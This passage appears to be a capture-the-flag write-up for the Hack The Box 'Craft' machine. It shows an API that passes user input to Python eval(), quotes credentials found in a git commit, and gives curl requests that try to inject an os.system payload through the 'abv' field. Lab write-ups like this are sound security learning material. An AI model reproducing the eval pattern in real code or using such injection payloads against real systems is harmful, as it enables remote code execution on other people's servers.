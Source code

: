 ```python
	# make sure the ABV value is sane
	if eval('%s >1' % request.json['abv']):
		return "ABV must be a decimal value less than 1.0", 400
	else:
		create_brew(request.json)
		return None, 201
```
so to me this reads that previously it was creating a brew with the potential to have an ABV of >100%. The patch changes it to ensure that the ABV can't go above 100%, which makes sense. I would rate myself *pretty okay* at reading code, but pretty poor at writing it. So hopefully I don't have to go too deep into a code review because this may take me a long time.

I ended up finding a site which requires authentication to get in: `https://api.craft.htb/api/auth/login`. In poking around the site, in the git commits (`https://gogs.craft.htb/Craft/craft-api/commit/10e3ba4f0a09c778d7cec673f28d410b73455a86`) there was a pair of credentials: 

```auth=('dinesh', '4aUh0A8PbVJxgd')```. Score.

# Exploitation

I tried a couple of the API calls via `curl` but was unsuccesful. I had to read a bit of the manpages in order to ensure that I was formatting my command correctly -- which I wasn't. I eventually was able to get a successful result, which was the validation of a token. This was not the first token I generated though so there is some sort of lifespan on these things. I think it was in the 15-20 minute time period, but I wasn't timing anything.

```console
root@kali:~/htb/craft# curl -X GET "https://api.craft.htb/api/auth/check" -H  "accept: application/json" -H "X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTc2NTMzMDA5fQ.eQSYf7PSL0Ppd8D72Jpu60rd4TrGKPhxjsIYXv-6oK4" -k
{"message":"Token is valid!"}
```
I attempted a few times to see if I can use the token to then pass an argument based on the `brew.py` patch I saw earlier:

```json
{	
	"id": 0,
	"brewer": "string",
	"name": "string",
	"style": "string",
	"abv": "__import__('os').system('ls')"
}
```
```console
curl -X POST "https://api.craft.htb/api/auth/check" -H  "accept: application/json" -H "X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTc2NTMzMDA5fQ.eQSYf7PSL0Ppd8D72Jpu60rd4TrGKPhxjsIYXv-6oK4" -k -d `{"id": 0,"brewer": "string","name": "string","style": "string","abv": "__import__('os').system('ls')"}`
```

But to no avail. I also tried a few different commands and minor tweaks, but nothing was working. I decided to fire up burp and try to check out what is actually being sent to see if its a syntax error with the request or something else.
